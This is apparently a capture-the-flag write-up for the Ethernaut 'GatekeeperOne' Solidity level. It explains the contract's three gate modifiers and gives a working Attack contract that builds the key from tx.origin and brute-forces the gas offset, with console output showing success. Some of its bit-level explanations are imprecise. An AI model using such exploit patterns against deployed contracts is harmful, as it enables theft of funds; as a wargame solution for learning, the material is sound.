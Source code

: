 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

Challenge's message:

> Make it past the gatekeeper and register as an entrant to pass this level. - Remember what you've learned from the Telephone and Token levels. - You can learn more about the special function gasleft(), in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

The **GatekeeperOne** contract implements a gatekeeping mechanism that restricts entry to a certain function based on three specific conditions. There is a public address entrant variable that stores the address of the entrant who successfully passes the gatekeeping conditions. Also, we have three modifiers implemented on the **enter()** function: 

### Modifiers

#### gateOne()

This modifier enforces a condition that the *msg.sender* (the caller of the function) is not the same as the *tx.origin* (the origin of the transaction). In other words, it ensures that the function is not called directly but is being called through another contract or function.

#### gateTwo()

This modifier checks if the remaining gas (`gasleft()`) divided by 8191 is equal to zero. It restricts the execution of the function based on the specific gas limit condition.

#### gateThree()

This modifier takes a parameter *_gateKey* of type *bytes8* and enforces three conditions:

- The first condition checks if the first 32 bits of *_gateKey* (converted to *uint64*) is equal to the first 16 bits of *_gateKey*. If they are not equal, it throws an error with the message "GatekeeperOne: invalid gateThree part one". ***This condition ensures that the first 16 bits of *_gateKey* are zero***.
- The second condition checks if the first 32 bits of *_gateKey* (converted to *uint64*) is not equal to *_gateKey* itself. If they are equal, it throws an error with the message "GatekeeperOne: invalid gateThree part two". ***This condition ensures that the first 32 bits of *_gateKey* are not all zeros***.
- The third condition checks if the first 32 bits of *_gateKey* (converted to *uint64*) is equal to the first 16 bits of the *tx.origin* (the origin of the transaction). If they are not equal, it throws an error with the message "GatekeeperOne: invalid gateThree part three". ***This condition ensures that the first 16 bits of *_gateKey* match the first 16 bits of the transaction origin address***.


In the enter() function is the entry point of the contract and is used to gain access based on the gatekeeping conditions. It takes a parameter *_gateKey* of type *bytes8* which is used in the gateThree modifier. The function first applies the *gateOne*, *gateTwo*, and *gateThree* modifiers to enforce the respective conditions. If all the conditions are met, the entrant variable is updated with the *tx.origin* (the origin of the transaction) and the function returns *true*.

It's important to note that the code does not provide any indication of what the gatekeeping conditions are meant to achieve or how they contribute to the functionality or security of the contract.


# Subverting

```solidity
pragma solidity ^0.8.17;

import './GatekeeperOne.sol';

contract Attack{

    GatekeeperOne target;

    constructor(address _target){
        target = GatekeeperOne(_target);
    }

    function attack() external{
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);

        for(uint i=0; i<200; i++){
            uint totalGas = (8191*3) + i;
            (bool result, ) = address(target).call{gas: totalGas}(abi.encodeWithSignature("enter(bytes8)", gateKey));
            if(result){
                break;
            }
        }
    }

}
```

call attack function. See in [etherscan](https://sepolia.etherscan.io/tx/0xb28373341fc7cf1eba3ac0c67320cef9928268da033ec62771d2386ff422b8d7).

```shell
await contract.entrant()
'0x0000000000000000000000000000000000000000'
```


```shell
await contract.entrant()
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```

```shell
player
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```

Ethernaut's message:

> Well done! Next, try your hand with the second gatekeeper...


